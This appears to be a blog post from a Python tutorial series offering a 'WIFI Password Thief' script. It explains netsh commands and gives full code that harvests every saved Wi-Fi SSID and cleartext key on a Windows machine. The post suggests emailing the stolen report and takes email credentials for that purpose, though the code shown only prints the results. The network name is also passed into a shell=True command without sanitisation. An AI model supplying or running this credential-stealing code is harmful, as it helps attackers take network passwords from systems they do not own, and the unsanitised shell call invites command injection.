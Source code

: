 ```yaml
---
title: Malware - WIFI Password Thief
date: 2021-08-19 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: This script steals all relevant WIFI passwords from a given Windows system.
---
```


<p align="center">
 <img src="https://c.tenor.com/jL1f0JCmZEkAAAAM/ill-be-taking-that-spongebob.gif">
</p>


## This script steals all relevant WIFI passwords from a given Windows system.

- This can be coupled with the smtplib to send a report via email too.

- We use various netsh commands to view the WIFI details,passwords.

  > netsh wlan show profile - view ssid , common details.

  > netsh wlan show profile "network_name" key=clear - view password along with more info.

- We use regex to capture the relevant fields by seperating them into groups.



### Code: 

```python
#!/usr/bin/env python

import subprocess, re, argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options



print("""
                                                ＷＩＦＩ Ｐａｓｓｗｏｒｄ－Ｔｈｉｅｆ
      """)

options = get_arguments()


command = 'netsh wlan show profile'
networks = subprocess.check_output(command, shell=True).decode()
# Seperate regex into capturing groups
# \s - spaces; * - any no of; . - any type of char
# Set "Profile" as non capturing group using '?:'
# Use re.findall() to find all instances as lists that match instead of re.search()
network_names_list = re.findall("(?:Profile\s*:\s)(.*)", networks)
print("[!] Finding Network Names..")

result = ""
pass_result = ""
for network_name in network_names_list:
    command = "netsh wlan show profile " + network_name + " key=clear"
    current_result = subprocess.check_output(command, shell=True).decode()
    result += current_result
print("[!] Finding Network Passwords..")

banner = "\n\nWIFI SSID And PassList:\n"
loop_result = ""
counter = 0
passlist = re.findall("(?:Key Content\s*:\s)(.*)", result)
network_name = re.findall("(?:SSID name\s*:\s\")(.*)(?:\")", result)
try:
    print(banner)
    while True:
        net_name = network_name[counter] + ": "
        pass_name = passlist[counter]
        loop_result = net_name + pass_name
        counter += 1
        print(loop_result)    
except IndexError:
        exit()
```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Wifi_pass_stealer/wifi.png)